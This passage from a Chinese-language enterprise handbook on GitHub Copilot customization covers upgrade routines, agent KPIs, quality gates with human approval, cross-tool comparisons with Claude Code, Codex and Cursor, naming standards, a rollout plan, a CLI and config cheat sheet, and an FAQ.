| Detect Update | 訂閱 GitHub Changelog、`docs.github.com`／`code.visualstudio.com` 更新通知 |
| Read Release Notes／Breaking Changes | 特別留意術語變更（如本手冊查證時遇到的 `.chatmode.md`→`.agent.md`、"coding agent"→"cloud agent"） |
| Review Existing Agents／Skills／Plugins／Hooks／MCP | 逐一確認既有資源是否受影響，特別是依賴已變更或已淘汰機制的資源 |
| Run Regression Tests | 在沙盒環境驗證既有工作流程未被破壞 |
| Pilot | 先在試點團隊套用新版本 |
| Team Rollout | 確認無重大問題後才全面推廣 |

### Scenario

本手冊撰寫過程中就實際遇到「Copilot Extensions 已日落」「chatmodes 資料夾已移除」等重大變化，若企業內部文件沒有定期執行本 Playbook，很容易繼續沿用已過時的教學內容而不自知。建議至少每季執行一次 Upgrade Playbook，並將查證日期標註在企業內部文件中（比照本手冊開頭的「查證日期」慣例）。

### 本章 Checklist

- [ ] 已建立訂閱官方 Changelog 的機制
- [ ] 每季至少執行一次 Upgrade Playbook
- [ ] 企業內部文件皆標註「查證日期」，避免長期未更新卻被當成最新資訊使用

---

## 30. Agent 成效 KPI

> **不應只使用「產生多少程式碼」評估 AI Agent。**

### 30.1 KPI 清單

| KPI | 說明 |
|---|---|
| Development Lead Time | 需求提出到上線的總時間 |
| Code Review Time | PR 從提出到核准合併的時間 |
| Defect Rate | 上線後發現的缺陷數量／密度 |
| Test Coverage | 測試涵蓋率變化趨勢 |
| Security Findings | 安全審查發現的問題數量與嚴重程度分布 |
| Migration Success Rate | Framework Migration 案例的成功率（是否需要回滾） |
| Rework Rate | AI 產出需要人工大幅修改的比例 |
| Agent Task Success Rate | Agent 任務一次完成（無需人工介入修正）的比例 |
| Human Intervention Rate | 需要人工中斷/修正 Agent 執行的頻率 |
| Token Consumption | 各 Agent／Skill 的 Token 使用量 |
| Cost | 對應的 AI Credits／API 費用 |
| Developer Satisfaction | 團隊對 Agent 協作體驗的滿意度調查 |

### 30.2 KPI 使用原則

- KPI 應**組合觀察**，不可單看「程式碼產出量」判斷 Agent 是否有效——產出量高但 Rework Rate 也高，代表實際效益有限。
- Human Intervention Rate 偏高，往往代表 Instructions／Skill 定義不夠清楚，而非 Agent 能力不足。
- 定期（如每季）檢視 KPI 趨勢，回饋到第 22 章 Phase 6 Continuous Improvement 循環。

**示意數值範例**（⚠️ 純屬教學示範的假設情境，非任何真實企業的量測基準，實際數值請以企業自身量測結果為準）：某團隊在導入 Agent Team 協作模式（第 10 章）並補齊 Instructions／Skill 觸發準確度（第 27 章 Troubleshooting）後，於一季內觀察到的趨勢示意：

| KPI | 導入前（示意） | 導入後（示意） | 觀察重點 |
|---|---|---|---|
| Human Intervention Rate | 約 45% 任務需人工中斷修正 | 降至約 20% | 多數改善來自把模糊的 Instructions 改寫得更具體（呼應 30.2 第二點） |
| Rework Rate | 約 30% 產出需大幅修改 | 降至約 15% | 需與 Code Review Time 一併觀察，避免只是把返工成本轉嫁到審查階段 |
| Migration Success Rate | 首次 Migration 案例回滾 1 次 | 後續 3 次案例皆未回滾 | 得益於第 17 章分階段 Gate 設計，而非 Agent 本身能力進步 |

### Scenario

某企業管理層一開始只看「Agent 一週產出多少 PR」評估導入成效，數字看起來很亮眼，直到 Code Review Time 與 Defect Rate 同步大幅上升才驚覺：多數 PR 是「產出快但品質差」，Reviewer 要花更多時間把關，實際上拖慢了整體交付速度。**修正**：改用 30.1 的組合式 KPI（尤其同時檢視 Rework Rate 與 Human Intervention Rate），並依 30.2 原則定期檢視趨勢，才發現問題根源是 Instructions 對錯誤處理規範描述不清楚，補強後 PR 數量雖然下降，但 Defect Rate 與 Code Review Time 雙雙改善，整體交付效率反而提升。

### 本章 Checklist

- [ ] 已建立至少 5 項 KPI 的量測機制，而非只看程式碼產出量
- [ ] KPI 檢視結果已回饋到 Instructions／Skill／Agent 的持續改善

---

## 31. AI Agent Quality Gate

### 31.1 七道 Gate



### 31.2 各 Gate 定義

| Gate | Input | Check | Pass Criteria | Fail Criteria | Responsible Agent | Human Approval |
|---|---|---|---|---|---|---|
| Requirement Gate | 需求描述 | 是否明確、可驗證 | 需求邊界清楚，無模糊描述 | 需求含糊或範圍不明 | project-coordinator | 是（需求提出者確認） |
| Architecture Gate | 需求 | 是否符合既有架構原則 | 通過 system-architect 審查 | 違反分層/架構原則 | system-architect | 是（Tech Lead） |
| Implementation Gate | 架構決策 | 實作範圍是否在核准邊界內 | Migration Plan／Implementation Plan 已核准 | 未經核准即實作 | 對應領域 Agent | 是（Implementation Plan 核准） |
| Test Gate | 實作程式碼 | 測試是否完整且通過 | 測試涵蓋新增/修改邏輯且全數通過 | 測試缺漏或失敗 | test-agent | 否（可自動化判定） |
| Security Gate | 程式碼變更 | 是否有安全風險 | 無 Critical／High 等級發現 | 存在 Critical 等級發現 | security-agent | 是（Critical 發現需人工確認修復） |
| Code Review Gate | 程式碼變更 | 是否符合規範與品質標準 | Reviewer 核准 | 存在未解決的審查意見 | code-review-agent | 是（人工核准合併） |
| Deployment Gate | 通過審查的變更 | 部署設定是否正確 | 通過 CI/CD Pipeline 全部檢查 | Pipeline 失敗 | devops-agent | 依變更風險等級決定 |

### Scenario

某企業曾經因為 Test Gate 設計成「Agent 自行判斷是否需要跑測試」，導致部分變更繞過測試直接進入下一階段。改為「Test Gate 為確定性 Hook 觸發，非 AI 判斷」後（呼應第 5.3 節「Hooks 是唯一不經過 AI 推理的一層」），這個問題徹底解決。

### 本章 Checklist

- [ ] 七道 Gate 已對應到實際 CI/CD／Agent 工作流程中
- [ ] Test Gate 已採確定性觸發（Hook），而非依賴 AI 判斷
- [ ] Security Gate 的 Critical 等級發現已強制要求人工確認才能繼續

---

## 32. awesome-copilot／Copilot 與其他 AI Coding Agent 比較

> ⚠️ **重要聲明**：本章 **僅 GitHub Copilot 欄位**經過本手冊逐項官方查證（來源標示同前）；Claude Code、OpenAI Codex、Cursor 欄位是依各自產品**既有公開資訊**做的**定性**比較，部分欄位已於 2026-08-27 補充網路上可查得的現況資訊，但仍**未逐項重新核對其官方文件**，因此每個欄位皆附查證信心標示。企業若要據此做工具選型決策，務必自行查證這三欄的當下最新官方文件，不可直接引用本表作為決策依據。

| Capability | GitHub Copilot（官方已實作，逐項查證） | Claude Code（定性，信心：中） | OpenAI Codex（定性，信心：中，2026-08-27 補充） | Cursor（定性，信心：中，2026-08-27 補充） |
|---|---|---|---|---|
| Instructions | `copilot-instructions.md`／`*.instructions.md`（`applyTo`）／`AGENTS.md`（支援面有限，見第 7 章） | `CLAUDE.md`／`.claude/` 底下的規則檔 | 支援 `AGENTS.md`（Codex 為該標準的早期採用者之一） | 支援 `AGENTS.md`，另有自家 `.cursor/rules` 機制 |
| Agents | `.agent.md`（Custom Agents，前身 `.chatmode.md`） | 具備 Custom Subagent 機制 | 多介面架構（CLI／IDE／雲端沙盒），無獨立的「Custom Agent」檔案格式對外開放 | Agent 模式稱為 **Composer**，內建於 VS Code fork 的編輯器中 |
| Skills | `SKILL.md`，**2025-12-18 GA**，與 Claude Code `.claude/skills` **官方明文相容** | `.claude/skills`（與 Copilot 互通，見第 8.1 節） | 具備 Codex Skills（可重複使用的工作流程包），於 **2025-12** 推出 | 資料不足，需自行查證當下最新狀態 |
| Hooks | `.github/hooks/*.json`，6 事件 | 具備事件驅動 Hooks 機制（事件名稱與 Copilot 不同，不可混用，見第 5.3 節提醒） | 資料不足 | 資料不足 |
| Plugins | Agent Plugins 1.0（跨廠商開放標準，AWS/Anysphere/Microsoft/OpenAI/Vercel/Google 共同支持） | 具備 Plugin 機制 | 支援 Agent Plugins 1.0（開放規範發起成員之一，2026-08 launch 時即支援） | 支援 Agent Plugins 1.0（發起成員之一） |
| MCP | 官方已實作，多 Client 設定位置（第 14.4 節） | 官方已實作 | 官方已實作 | 官方已實作 |
| Agent Delegation | Custom Agents 的 `handoffs`／`agents` 欄位 | 具備 Subagent 交派機制 | 資料不足 | 不綁定單一模型供應商，可切換底層模型，交派機制資料不足 |
| Enterprise Governance | Organization 層級指令、Business/Enterprise 方案設定 | 依產品方案而定 | 依產品方案而定 | 依產品方案而定 |
| 定價（頂級方案，2026 年中概況） | 依 Copilot Business/Enterprise 方案而定 | Pro 年繳約 $17/月起，頂級方案約 $200/月 | 頂級方案約 $200/月 | Pro 約 $20/月起，頂級方案約 $200/月 |

### 32.1 重要提醒

> 由於 Agent Plugins 1.0 是**跨廠商開放標準**（AWS、Anysphere、Microsoft、OpenAI、Vercel、Google 共同支持，且 OpenAI Codex／Cursor 皆為發起成員，2026-08-27 已用官方 Changelog 與規範 repo 核實），以及 Agent Skills 與 Claude Code 明文相容，這兩項機制在 GitHub Copilot 與其他工具間的「概念差異」正在快速縮小——四家工具在 Plugins／MCP 這兩層已趨於一致，主要差異已收斂到「Agent 的呈現介面」（Copilot 的 Custom Agents／Claude Code 的 Subagent／Codex 的多介面架構／Cursor 的 Composer）與「Governance／定價方案」。撰寫企業比較文件時，與其糾結「哪個工具功能比較多」，不如聚焦「企業實際使用的工具組合，各自的官方支援現況與限制」。

### 本章 Checklist

- [ ] 已明確告知讀者：僅 Copilot 欄位逐項查證，其餘工具需自行查證
- [ ] 未把任一工具的機制細節直接套用到另一工具的規格描述上
- [ ] 工具選型決策已基於當下重新查證的資料，而非直接引用本表

---

## 33. 與 Claude Code 概念映射

> 企業團隊若同時使用 GitHub Copilot 與 Claude Code，下表協助建立共同語言。**相同概念不代表相同實作**，尤其事件名稱、Frontmatter 欄位、觸發時機都可能不同。

| GitHub Copilot | Claude Code | Concept | 相同/不同 |
|---|---|---|---|
| Custom Agents（`.agent.md`） | Custom Subagent（`.claude/agents/`） | 具角色/工具授權的專業代理 | 概念相同，Frontmatter 欄位不完全相同 |
| Agent Skills（`SKILL.md`，`.github/skills/`） | Agent Skills（`SKILL.md`，`.claude/skills/`） | 可封裝、可攜帶資源的能力 | **官方明文互通**——同一份 `SKILL.md` 可被兩者共用（見 8.1 節） |
| `copilot-instructions.md`／`*.instructions.md` | `CLAUDE.md`／Rules | 長期背景與規則 | 概念相同，`AGENTS.md` 是兩者皆可能讀取的跨工具共用檔（支援面有限，見第 7 章） |
| Hooks（`.github/hooks/*.json`，6 事件） | Hooks（事件驅動自動化） | 確定性事件驅動自動化 | 概念相同，**事件名稱不同，不可直接複製設定** |
| Plugins（`plugin.json`，Agent Plugins 1.0） | Plugin 機制 | 可安裝的能力組合 | Agent Plugins 1.0 為跨廠商標準，理論上朝格式統一方向發展，但仍需逐一確認相容性 |
| MCP | MCP | Agent 與外部系統的連接層 | 概念與底層協定相同（MCP 本身是開放協定），設定檔位置不同 |

### 33.1 相同概念、不同實作

- **Skills 是目前相容性最高的一層**：官方明文互通，企業可以只維護一份 `SKILL.md`，同時被 Copilot 與 Claude Code 使用。
- **Hooks 是最容易出錯的一層**：事件名稱不同（Copilot 是 `sessionStart`／`sessionEnd`／`userPromptSubmitted`／`preToolUse`／`postToolUse`／`errorOccurred`），絕不可把 Claude Code 的 Hook 設定直接複製給 Copilot 使用。
- **Instructions／`AGENTS.md`**：`AGENTS.md` 是目前最接近「跨工具共用」的檔案，但支援面因 Client／情境而異（見第 7.2 節矩陣），不可假設「寫一份 `AGENTS.md` 就萬事俱備」。

### 33.2 不可直接複製的部分

- `.agent.md` 與 Claude Code Subagent 的 Frontmatter 欄位不完全相同，直接複製檔案可能導致欄位無法識別。
- Hook 的事件名稱與觸發時機不同，複製設定檔會導致 Hook 完全不觸發或觸發時機錯誤。
- Plugin 的 manifest 格式雖朝開放標準發展，仍建議每次安裝到新工具前重新確認相容性。

### 33.3 如何建立跨 Agent 的標準

1. 優先把「純規則、無工具授權」的內容放進 `AGENTS.md`，作為兩個工具的共用基礎。
2. Skills 直接共用同一份 `SKILL.md`，放在 `.github/skills/` 或 `.claude/skills/` 其中之一，兩工具都能讀取。
3. Agents／Hooks 分別維護各工具專屬版本，但保持**邏輯一致**（例如兩邊的 Security Agent 都遵循同一份 `security-review` Skill 定義的檢查面向）。

### 33.4 VS Code 原生 Claude／Codex Harness 對跨工具標準的影響

> ⚠️ 本節為第三版新增。上一版的前提是「Copilot 與 Claude Code 是兩個獨立工具，企業要在兩者之間建立橋樑」；2026-08-28 複查發現 **VS Code 已內建 Claude 與 Codex 兩種 agent harness**（見第 6.7 節），這改變了跨工具標準的設計前提。

#### 三個實際改變

| 改變 | 舊的假設 | 新的事實 | 對企業標準的影響 |
|---|---|---|---|
| **同一個 IDE 內切換廠商** | 要用 Claude 就要離開 VS Code | 在 Session Target 選 Claude harness 即可，使用 Anthropic Claude Agent SDK | 「哪些專案可以用哪家模型」必須寫進企業政策，而不是靠「沒裝那個工具」自然限制 |
| **`CLAUDE.md` 被視為 always-on instructions** | `CLAUDE.md` 是 Claude Code 專用 | VS Code 將 `copilot-instructions.md`、`AGENTS.md`、`CLAUDE.md` 三者同列為一律載入的指令檔 | Repository 中若同時存在三份，**內容矛盾的風險大幅升高**；建議以 `AGENTS.md` 為唯一事實來源，其餘兩份只放工具特有差異 |
| **使用者層目錄分歧** | 只要管 `~/.copilot` | Agent Host 依 harness 分別讀 `~/.copilot` 與 `~/.claude` | 企業設備檢查／離職交接清單必須同時涵蓋兩個目錄 |

#### 修正後的跨工具標準建議（建議架構）

1. **規則層（最高兼容）**：以 `AGENTS.md` 為唯一事實來源，`copilot-instructions.md` 與 `CLAUDE.md` 若存在，內容只寫「該工具特有」的差異，並在檔頭注明「共通規則見 `AGENTS.md`」。
2. **能力層（次高兼容）**：維護一份 `SKILL.md`，依第 8.1 節的互通性同時供兩家 harness 使用。
3. **角色層（需分別維護）**：`.agent.md` 與 Claude Subagent 的 frontmatter 不完全相同，仍須分別維護但邏輯對齊。
4. **治理層（最容易漏掉）**：第 20.6 節的 Agent Sandboxing 是 **VS Code 層級**的控制，因此它對 Local／Copilot／Claude／Codex 四種 harness 的終端機指令都適用——這是企業在多廠商情境下最實用的一道統一防線。

> ⚠️ **採購與法遵提醒**：在 VS Code 內使用 Claude 或 Codex harness，代表程式碼與情境資料會送往 **GitHub 以外的模型供應商**。對有資料境外傳輸限制的企業，這必須先通過採購與法遵審查，不能視為「反正都在 VS Code 裡面」而默許。

### 33.5 Plugin 分發層的跨工具收斂（第四版新增）

> 前三版把「跨工具標準」只談到**規則層、能力層、角色層**三層，遺漏了**分發層**。2026-08-31 複查發現一項強證據，值得單獨拉出一節。

#### 一項很具方向性的事實

awesome-copilot 對 **External Plugins** 的官方表述是：「Approved submissions are converted into `plugins/external.json` entries following the **Claude Code plugin marketplace spec**」（Source-confirmed，見第 11.5 節）。

換句話說：**GitHub 官方 org 底下的們庫，在 Plugin 分發目錄上直接採用了 Anthropic 側的規格**。這與第 11.3 節提到的 **Agent Plugins 1.0** 開放規範（`agent-plugins.org`）共同構成一個趨勢：分發層正在收斂，而非各家各自發展。

#### 四層跨工具相容性修正版（建議架構）

| 層級 | 相容性 | 企業做法 |
|---|---|---|
| **規則層**（`AGENTS.md`） | 最高 | 唯一事實來源，兩家共用 |
| **能力層**（`SKILL.md`） | 高 | 共用同一份，frontmatter 取兩家交集 |
| **分發層**（Plugin manifest） | **中且正在提升** | 對外引用採 `source.source`／`repo`／`sha` 格式；內部自建採 Agent Plugins 1.0 |
| **角色層**（Agent）與 **事件層**（Hook） | 低 | 分別維護，邏輯對齊即可 |

> ⚠️ **不要過度外推這個訊號（重要限制）**：「採用同一套 marketplace 登錄規格」**不等於**「Plugin 內容可以直接互通」。登錄規格只描述「這個 Plugin 在哪裡、哪個版本」，不描述「裡面的 Agent／Hook 怎麼跑」。Hook 事件名稱與語意仍然不同（見第 13.2.2 小節的 Runtime↔Claude 工具名稱對照表）。企業若因為這項事實而假設「兩邊 Plugin 可互換」，會重蹈第 33 章開頭 Scenario 的覆轍。

> **對企業的實際建議**：在內部技術選型文件中，把「Plugin 分發格式」列為**低鎖定風險**項目（因為正在收斂），但把「Hook 實作」與「Agent frontmatter」列為**高鎖定風險**項目。這樣的分級能讓投資決策更精準——把時間花在規則層與能力層，而不是在事件層做大量跨工具抽象。

### Scenario

某企業原本以為「把 Claude Code 的 Hook 設定檔複製一份給 Copilot 用」就能立即生效，結果完全沒有觸發，浪費了一整天除錯。查證後才發現兩者事件名稱不同（例如 Claude Code 某些事件名稱與 Copilot 的 `preToolUse`／`postToolUse` 對應但命名不同）。**教訓**：即使概念相同，實作細節仍需逐一查證，不可假設「複製貼上就會動」。

### 本章 Checklist

- [ ] 團隊已理解 Skills 是相容性最高的一層，Hooks 是最容易出錯的一層
- [ ] `AGENTS.md` 已作為跨工具共用的基礎規則檔
- [ ] 已針對 VS Code 原生 Claude／Codex harness 完成資料境外傳輸的採購與法遵審查（33.4）
- [ ] Repository 中的 `AGENTS.md`／`copilot-instructions.md`／`CLAUDE.md` 已確認內容不相矛盾（33.4）
- [ ] 未直接複製 Hook／Agent 設定檔跨工具使用而未驗證
- [ ] 已在內部技術選型文件中區分「分發層（低鎖定風險）」與「事件層（高鎖定風險）」（33.5）
- [ ] 已向團隊釐清「共用 marketplace 規格 ≠ Plugin 內容可互換」（33.5）

---

## 34. Enterprise Awesome Copilot Standard

### 34.1 Naming Convention

**Agent**：

```text
<domain>-<role>.agent.md

範例：
web-frontend-architect.agent.md
legacy-reverse-engineering.agent.md
```

**Skill**：

```text
<capability>/
└── SKILL.md

範例：
skills/framework-migration/SKILL.md
skills/security-review/SKILL.md
```

**Instructions**：

```text
<domain>.instructions.md

範例：
java.instructions.md
vue.instructions.md
```

### 34.2 Documentation Standard

每個 Agent／Skill／Plugin 都必須具備：

| 項目 | 說明 |
|---|---|
| Purpose | 一句話說明此資源的目的 |
| Scope | 適用範圍（哪些專案/技術堆疊） |
| Inputs | 預期輸入 |
| Outputs | 預期輸出格式 |
| Dependencies | 相依的其他 Instructions／Skill／MCP |
| Tools | 工具授權範圍 |
| Security | 已知風險與緩解措施 |
| Examples | 至少一個使用範例 |
| Limitations | 明確的能力邊界與已知限制 |
| Version | 版本號 |
| Owner | 負責維護的團隊/個人 |
| Change History | 變更歷程摘要 |

### Scenario

某企業建立 Agent Catalog 初期沒有強制要求 Documentation Standard，導致半年後沒人記得某些 Agent 的 `tools` 授權為什麼要設成那樣、Owner 是誰。導入 34.2 標準後，新增資源前必須先填妥這 12 個欄位才能通過 PR Review，大幅降低了「祖傳設定沒人敢動」的技術債。

### 本章 Checklist

- [ ] 命名慣例已納入 PR Template 的檢查項目
- [ ] 每個既有企業資源已補齊 34.2 的 12 項文件標準
- [ ] Owner 欄位已對應到實際負責的團隊/個人，而非留空

---

## 35. 團隊導入方案分級

| 等級 | 使用的機制 | 適合情境 |
|---|---|---|
| **Beginner** | Instructions、少量 Skills、少量 Agents | 團隊剛開始接觸 Copilot 客製化，先從低風險、高影響的 Instructions 做起 |
| **Intermediate** | + Custom Agents、MCP、Hooks | 已有基礎經驗，開始需要角色化 Agent 與外部系統連接 |
| **Advanced** | + Plugins、Agent Team、Agent Delegation、CI/CD、Automated Review | 已建立多個 Agent，需要打包分發與自動化整合 |
| **Enterprise** | + Governance、Approved Catalog、Security Review、Audit、KPI、Lifecycle Management | 需要跨團隊、跨組織的治理與稽核機制 |

### 35.1 各等級進階條件（建議架構）

- Beginner → Intermediate：團隊已能自行撰寫 3+ 份 Instructions，且無重大誤用事故
- Intermediate → Advanced：已有 2+ 個 Custom Agent 穩定運作，MCP 已導入且權限控管到位
- Advanced → Enterprise：Plugin 已跨團隊分發使用，且已有初步 KPI 量測數據

### Scenario

某企業的 CTO 看完 awesome-copilot 生態系介紹後，要求團隊「一次到位」直接建立 Enterprise 等級的 Governance、Approved Catalog 與 Audit 機制，結果團隊連一份像樣的 `copilot-instructions.md` 都還沒寫過，Governance 流程審查的對象根本不存在，導致整個治理框架淪為空殼文件，團隊也因為前期投入大量時間在流程設計而非實際導入，士氣受挫。**修正**：依 35.1 的進階條件重新規劃，先在 Beginner 等級累積 3 份以上 Instructions 並穩定運作，再逐級往上，Governance 機制才有實際治理對象可管，而非治理一個不存在的東西。

### 本章 Checklist

- [ ] 已依團隊現況判定所處等級，不要求一步到位跳到 Enterprise
- [ ] 每個等級的進階條件已明確定義，而非憑感覺升級

---

## 36. 30/60/90 天導入計畫

### 36.1 Day 1-30：Learning + Pilot

| 項目 | 內容 |
|---|---|
| Objective | 團隊建立基礎認知，完成至少一個 Pilot 案例 |
| Activities | 完成第 26 章 Tutorial 1-11；選定一個 Web App／Legacy／Migration 案例作為 Pilot |
| Deliverables | Pilot 案例的完整客製化資源（Instructions＋至少 1 個 Agent／Skill） |
| Responsible Role | Tech Lead 主導，2-3 名資深工程師參與 |
| KPI | Pilot 案例完成度、團隊基礎認知測驗通過率 |
| Exit Criteria | Pilot 案例成功產出可驗證的成果，且無重大安全事故 |

### 36.2 Day 31-60：Standardization + Agent Library

| 項目 | 內容 |
|---|---|
| Objective | 建立企業標準與初版 Agent／Skill／Instructions Catalog |
| Activities | 依第 24 章建立三大 Catalog；依第 34 章建立命名慣例與文件標準 |
| Deliverables | 企業 Agent／Skills／Instructions Catalog v1.0 |
| Responsible Role | Platform Engineering Team |
| KPI | Catalog 涵蓋的核心情境數量、文件標準符合率 |
| Exit Criteria | Catalog 已涵蓋至少 80% 團隊日常需求的核心情境 |

### 36.3 Day 61-90：Governance + Enterprise Rollout

| 項目 | 內容 |
|---|---|
| Objective | 建立治理機制並全面推廣 |
| Activities | 依第 20-21 章建立 Governance Workflow 與安全評估流程；全公司 Rollout |
| Deliverables | Governance 政策文件、Approved Catalog、Audit 機制 |
| Responsible Role | Security Team + Platform Engineering Team + 各團隊 Tech Lead |
| KPI | 依第 30 章 KPI 清單建立基線數據 |
| Exit Criteria | Governance Workflow 正式生效，且已完成第一輪 Periodic Review |

### 本章 Checklist

- [ ] 已依 36.1-36.3 排定具體時程與負責人
- [ ] 每階段 Exit Criteria 皆為可驗證的具體標準，而非模糊的「感覺差不多了」

---

## 37. Cheat Sheet

### 37.1 常用 CLI

```bash
# 安裝 Copilot CLI
npm install -g @github/copilot                      # 跨平台，需 Node.js 22+
brew install --cask copilot-cli                     # macOS/Linux
winget install GitHub.Copilot                        # Windows，需 PowerShell v6+
curl -fsSL https://gh.io/copilot-install | bash      # macOS/Linux 安裝腳本

# 登入
# 首次啟動輸入 /login，或設定環境變數
export COPILOT_GITHUB_TOKEN=<token>

# Plugin Marketplace
# 注：`copilot-plugins` 與 `awesome-copilot` 已為 CLI 預註冊的 Known Marketplace，
#      下行 add 僅在需要手動重新指定或新增自建 marketplace 時才需要
copilot plugin marketplace add github/awesome-copilot
copilot plugin install <plugin-name>@awesome-copilot
copilot plugin list

# Skill（第四版新增，見 12.5.2）
copilot skill list                                   # 列出可用 Skill
copilot skill add <owner/repo>                       # 新增 Skill 來源
gh skill                                             # GitHub CLI 側的 Skill 入口（見 8.3）

# Agentic Workflows
gh extension install github/gh-aw
gh aw compile
gh aw compile --validate --no-emit <workflow>.md      # 只驗證不產出（見 2.5）
```

**常用 Slash 指令（第四版新增）**：

```text
/skills list | info | add | remove | reload   # Copilot CLI 內的 Skill 管理（見 12.5.2）
/<skill-name>                                 # 直接叫用某個 Skill
/troubleshoot #session                        # 診斷 Chat session（見 27.2）
/create-canvas                                # 建立 Canvas Extension（見 2.3）
```

### 37.2 常用目錄

```text
.github/copilot-instructions.md      # Repo 全域指令
.github/instructions/*.instructions.md  # 路徑特定指令（applyTo）
.github/agents/*.agent.md            # Custom Agents
.github/skills/<name>/SKILL.md       # Agent Skills
.github/hooks/*.json                 # Hooks（須在 default branch）
.github/prompts/*.prompt.md          # Prompt files
.vscode/mcp.json                     # MCP（workspace）
.github/copilot/settings.json         # Repo 層級宣告式設定（enabledPlugins、extraKnownMarketplaces）
.github/copilot/settings.local.json    # Repo 內個人覆寫（不進版控，稽核盲點，見 12.6）
.claude/settings.json                  # Copilot CLI 也會讀取（跨工具相容，見 12.6）
~/.copilot/settings.json              # 個人層級宣告式設定
~/.copilot/agents/                    # Agent Host 個人層級 Agents
~/.copilot/skills/                    # 個人層級 Skills（見 8.3）
~/.copilot/                          # 個人層級設定
.agents/skills/<name>/SKILL.md       # 跨工具 Skill 探索路徑（見 8.3）
AGENTS.md                            # 跨工具共用專案說明（支援面有限）

# 企業強制層（見 20.5／13.7.1）
managed-settings.json                            # 企業級設定，使用者無法覆寫
/etc/github-copilot/policy.d/*.json              # Policy Hooks（Linux／macOS）
C:\ProgramData\GitHub\Copilot\policy.d\*.json    # Policy Hooks（Windows）
```

### 37.3 Agent（`.agent.md`）最小範例

```yaml
---
name: my-agent
description: 一句話描述觸發情境
tools: read, search
target: github-copilot
---

# 角色與職責說明
```

### 37.4 Skill（`SKILL.md`）最小範例

```yaml
---
name: my-skill
description: Use this when...（明確觸發情境）
allowed-tools: read, search
---

# 步驟說明
```

### 37.5 Instructions 最小範例

```yaml
---
applyTo: "**/*.java"
---

# 規則內容
```

### 37.6 Plugin（`plugin.json`）最小範例

```json
{
  "$schema": "https://agent-plugins.org/schemas/1.0.0/plugin.schema.json",
  "name": "my-plugin",
  "description": "說明此 Plugin 的用途",
  "version": "1.0.0",
  "author": { "name": "Platform Team" },
  "license": "MIT",
  "extensions": {
    "com.github.awesome-copilot": {
      "agents": ["./agents/my-agent.md"],
      "skills": ["./skills/my-skill/"]
    }
  }
}
```

> 內容組合寫在 `extensions.com.github.awesome-copilot`；Agent 指向 `.md` 單一檔案，Skill 指向**資料夾**且以 `/` 結尾。詳見 11.3。

### 37.7 Hook 最小範例

> ⚠️ **第四版校正**：前三版此處的頂層 `event` 欄位寫法**並非官方格式**。事件名應是 `hooks` 物件的 **key**，對應值為**陣列**。詳見 13.3。

```json
{
  "version": 1,
  "hooks": {
    "preToolUse": [
      {
        "type": "command",
        "matcher": "bash|powershell|edit|create",
        "command": "./scripts/hooks/my-hook.sh",
        "timeoutSec": 30
      }
    ]
  }
}
```

十四個事件名：`sessionStart`、`sessionEnd`、`userPromptSubmitted`、`userPromptTransformed`、`preToolUse`、`postToolUse`、`postToolUseFailure`、`preCompact`、`agentStop`、`subagentStart`、`subagentStop`、`errorOccurred`、`permissionRequest`（CLI）、`notification`（CLI）。見 13.2.1。

### 37.8 MCP 最小範例

```json
{
  "servers": {
    "my-server": {
      "type": "http",
      "url": "https://example.com/mcp/"
    }
  }
}
```

### 37.9 Troubleshooting 速查（詳見第 27 章）

Hook 沒觸發 → 檢查是否在 default branch ｜ Skill 沒觸發 → 檢查 `description` 是否夠明確 ｜ Agent 沒出現 → 檢查存放路徑與 frontmatter ｜ Plugin 裝不了 → 檢查 Marketplace 是否已註冊

**不知道從何看起時** → 先跑 `/troubleshoot #session`，再開 `Developer: Open Agent Debug Panel`（見 27.2）。

### 37.10 Security Checklist 速查（詳見第 21 章）

Repository source｜Maintainer｜Last update｜License｜Dependencies｜Scripts｜Shell commands｜MCP servers｜Network access｜File access｜Environment variables｜Secrets｜Tool permissions｜Prompt injection｜Obfuscated code｜External download｜Supply-chain risk

### 本章 Checklist

- [ ] 已將本章指令速查表存放於團隊隨手可查閱的位置（如內部 Wiki 置頂）
- [ ] 新人 Onboarding 已附上本章連結，作為第一週的快速參考
- [ ] 37.3-37.8 的最小範例已實際跑過一次，確認指令與格式在當下版本仍然有效

---

## 38. FAQ

**Q1：awesome-copilot 是 GitHub 官方產品嗎？**
A：Repository 託管在 GitHub 官方 org 下，但內容是社群貢獻，不是官方產品規格。詳見第 2 章。

**Q2：`.chatmode.md` 還能用嗎？**
A：VS Code 官方說明可以直接改副檔名為 `.agent.md` 沿用，功能不變，只是術語更新。詳見第 9.1 節。

**Q3：GitHub Copilot Extensions 還能用嗎？**
A：不能。已於 2025-11-10 23:59 PST 正式日落，請改用 Plugins（Agent Plugins 1.0）或 MCP。詳見第 11.2 節。但 VS Code 端的 chat participant extension（client-side）不受影響。

**Q4：Agent Skills 是 Claude 專屬的東西被硬套到 Copilot 嗎？**
A：不是。GitHub Copilot 官方在 2025-12-18 GA 了自己的 Agent Skills 功能，且官方明文與 Claude Code 的 `.claude/skills` 相容互通。詳見第 8.1 節。

**Q5：`AGENTS.md` 是不是放一份就所有工具/情境都吃得到？**
A：不是。支援面因 Client／情境而異，尤其 GitHub.com 的 Code Review 功能只認 `AGENTS.md`，不認 `CLAUDE.md`。詳見第 7.2 節支援矩陣。

**Q6：Instructions、Skills、Agents 該怎麼選？**
A：靜態規則用 Instructions；多步驟且需要 bundled 資源的能力用 Skills；需要角色化、有工具授權邊界的用 Custom Agents。詳見第 5 章。

**Q7：Hooks 會不會被 AI 誤判要不要執行？**
A：不會。Hooks 是確定性事件驅動自動化，不經過 AI 推理判斷，只依賴事件是否發生。詳見第 5.3、13 章。

**Q8：企業可以直接把 awesome-copilot 上的資源複製來用嗎？**
A：可以參考，但**安裝前必須依第 21 章 Checklist 完整審查**，不可未經審查直接對全組織生效。

**Q9：Plugins 和 MCP 有什麼不同？**
A：Plugins 是「打包分發單位」（可包含 Agent／Skill／Hook／MCP 設定），MCP 是「Agent 與外部系統的連接層」，兩者是不同層級的機制，可以搭配使用。詳見第 5、14 章。

**Q10：本手冊的內容會不會很快過時？**
A：會。GitHub Copilot 客製化生態系正在快速演進（本手冊撰寫期間就發現多項重大更名/淘汰）。請比照第 29 章 Upgrade Playbook，定期重新查證並更新企業內部文件，且務必標註查證日期。

---

## 39. Conclusion

awesome-copilot 本身不是「魔法」，它是一座已經被社群篩選過、分類過的素材倉庫。真正決定企業能否從中受益的，是團隊是否具備：

1. **正確的元件選型能力**——知道什麼情境該用 Instructions、什麼情境該用 Skill、什麼情境該用 Agent（第 5 章）。
